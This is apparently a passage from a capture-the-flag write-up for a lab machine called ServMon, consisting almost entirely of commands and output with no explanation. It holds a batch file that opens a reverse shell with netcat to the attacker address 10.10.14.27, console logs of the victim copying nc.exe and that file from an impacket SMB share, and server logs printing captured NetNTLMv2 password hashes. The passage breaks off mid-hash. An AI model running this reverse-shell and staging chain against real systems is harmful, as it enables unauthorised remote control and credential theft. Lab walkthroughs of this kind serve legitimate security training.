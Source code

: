 ```bat
@echo off
C:\Temp\nc.exe 10.10.14.27 443 -e cmd.exe
```

```bash
nadine@SERVMON C:\Temp>copy \\10.10.14.27\smbFolder\privesc.bat privesc.bat
        1 file(s) copied.

nadine@SERVMON C:\Temp>copy \\10.10.14.27\smbFolder\nc.exe nc.exe
        1 file(s) copied.

nadine@SERVMON C:\Temp>
nadine@SERVMON C:\Temp>dir
 Volume in drive C has no label.
 Volume Serial Number is DC93-6115

 Directory of C:\Temp

16/01/2022  06:05    <DIR>          .
16/01/2022  06:05    <DIR>          ..
16/01/2022  05:05            28,160 nc.exe
16/01/2022  04:29                52 privesc.bat
               2 File(s)         28,212 bytes
               2 Dir(s)   6,099,292,160 bytes free

nadine@SERVMON C:\Temp>
```

```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation        
                                                                
[*] Config file parsed                                          
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0                                                           [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0                                                           [*] Config file parsed                                                                                                           [*] Config file parsed                                                                                                           [*] Config file parsed                                          
[*] Incoming connection (10.10.10.184,50180)
[*] AUTHENTICATE_MESSAGE (SERVMON\Nadine,SERVMON)
[*] User SERVMON\Nadine authenticated successfully              
[*] Nadine::SERVMON:aaaaaaaaaaaaaaaa:30aec89c753a12e5d36db95e3b3de36c:010100000000000000ec4c74960ad8014d9f3943568f061d00000000010
010007100730061004a006d00520049004800030010007100730061004a006d0052004900480002001000510043004f0064005700740065004d00040010005100
43004f0064005700740065004d000700080000ec4c74960ad801060004000200000008003000300000000000000000000000002000002ebc1373f115123d9554b
6b1f9118ac29ed1499e8690c0db0419656f943f50730a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030
002e00310034002e00320037000000000000000000  
[*] Connecting Share(1:IPC$)                                    
[*] Connecting Share(2:smbFolder)   
[*] Disconnecting Share(1:IPC$)                                 
[*] Disconnecting Share(2:smbFolder)                            
[*] Closing down connection (10.10.10.184,50180)
[*] Remaining connections []                                    
[*] Incoming connection (10.10.10.184,50197)                    
[*] AUTHENTICATE_MESSAGE (SERVMON\Nadine,SERVMON)
[*] User SERVMON\Nadine authenticated successfully
[*] Nadine::SERVMON:aaaaaaaaaaaaaaaa:de5c42e3a755709d52bd91fd227ed271:01010000000000008006bd8c960ad8017de9e43c87de19b600000000010
010007100730061004a006d00520049004800030010007100730061004a006d0052004900480002001000510043004f0064005700740065004d00040010005100
```